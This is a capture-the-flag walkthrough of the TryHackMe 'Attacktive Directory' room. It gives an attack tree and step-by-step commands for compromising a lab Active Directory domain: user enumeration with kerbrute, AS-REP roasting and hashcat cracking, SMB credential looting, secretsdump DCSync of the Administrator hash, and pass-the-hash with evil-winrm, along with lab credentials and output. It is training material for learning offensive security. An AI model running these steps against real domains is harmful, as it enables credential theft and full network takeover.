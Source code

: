 # Attacktive directory

| ![Kerberos](../../_static/images/kerberosfun.png) |
|:--:|
| The example was made from doing the [THM: Attacktive Directory room](https://tryhackme.com/room/attacktivedirectory) |

## Attack tree

```text
1 Discovery (AND)
    1.1 Scan ports
    1.2 Enumerate 139/445
2 Enumerate DC users (AND)
3 Exploit Kerberos
    3.1 Query a ticket from users (if possible) (AND)
    3.2 Crack the hash
4 Enumerate the DC further (AND)
    4.1 Map remote SMB shares
    4.2 Search for information for further escalation
    4.3 Decode or crack if necessary
5 Elevate privileges within the domain
    5.1 Dump ntds.dit
    5.2 Get administrators NTLM hash
    5.3 Pass the hash with Evil-WinRM
```

## Scan with nmap

    # nmap -sV -sC -T4 <IP address target>

## Enumerate 139/445

    # enum4linux <IP address target>

## Enumerate the DC

Add the following line to `/etc/hosts` file:

    <IP address target> spookysec.local

Download the user list and password list in the ~/Downloads directory:

```text
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

Run the kerbrute command in the ~/Downloads directory:

    # /opt/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

![Results kerbrute spooky.local](../../_static/images/kerbrute-spookylocal.png)

## Exploiting Kerberos

Kerberos pre-authentication has been disabled for svc-admin. Get the ticket:

    # cd /opt/impacket/examples
    # python GetNPUsers.py spookysec.local/svc-admin -no-pass

Check what [type of hash](https://hashcat.net/wiki/doku.php?id=example_hashes) was retrieved:

    Kerberos 5 AS-REP etype 23 -> mode 18200

Crack the hash with the modified password list:

    # hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt

Connect to the share using smbclient:

```text
smbclient '\\spookysec.local\backup' -U svc-admin
smb: \> ls
smb: \> mget backup_credentials.txt
exit
```

Decode using [base64](https://www.base64decode.org/). We now have the credentials of the backup account.

`secretdump.py` is part of impacket:

```text
cd /opt/impacket/examples
python3 secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
```

Now we have the password: management2005

## Enumerate the DC further

Map remote shares:

    $ smbclient -U spookysec.local/svc-admin -L //<IP target machine>
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 

And:

    $ smbclient -U spookysec.local/svc-admin //<IP target machine>/backup
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Sat Apr  4 19:08:39 2020
      ..                                  D        0  Sat Apr  4 19:08:39 2020
      backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020

Get them backup credentials:

    smb: \> get backup_credentials.txt

It contains base64 encoded credentials. Decoding the base64 string reveals the credentials:
    
    $ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
    [...]:backup2517860

Now that we have new user account credentials, we may have more privileges on the system than before. 
The username of the account "backup" indicated it is the backup account for the Domain Controller. 
This account has a unique permission that allows all Active Directory changes to be synced with this user account. 
This includes password hashes.

## Elevate privileges within the domain

Retrieve all password hashes that this user account (which is synced with the domain controller) has to offer. 
Exploiting this, we may have full control over the AD Domain.

    $ python secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
    ...
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
    ...

Pass the Administrators NTLM hash with Evil-WinRM:

    $ evil-winrm -i <IP target machine> -u Administrator -H <Administrators NTLM hash>

If on TryHackMe target, all flags are in the users desktops. The Administrator account has got acces to all.

## Tools

* [Impacket](https://github.com/SecureAuthCorp/impacket)

```text
# git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
# pip3 install -r /opt/impacket/requirements.txt
# cd /opt/impacket/ && python3 ./setup.py install
```

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```text
# apt install bloodhound neo4j
```

* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)

```text
# chmod +x filename
# mkdir /opt/kerbrute
# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
```
